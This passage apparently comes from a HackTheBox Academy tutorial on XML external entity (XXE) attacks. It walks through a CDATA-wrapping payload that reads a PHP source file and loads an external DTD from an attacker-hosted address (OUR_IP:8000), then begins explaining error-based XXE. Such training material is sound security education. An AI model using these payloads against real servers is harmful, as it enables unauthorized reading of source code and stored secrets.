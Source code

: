 Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file:&#x20;

![php\_cdata](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. `Try to use this trick to read other files`.

***

### Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows:

![cause\_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:
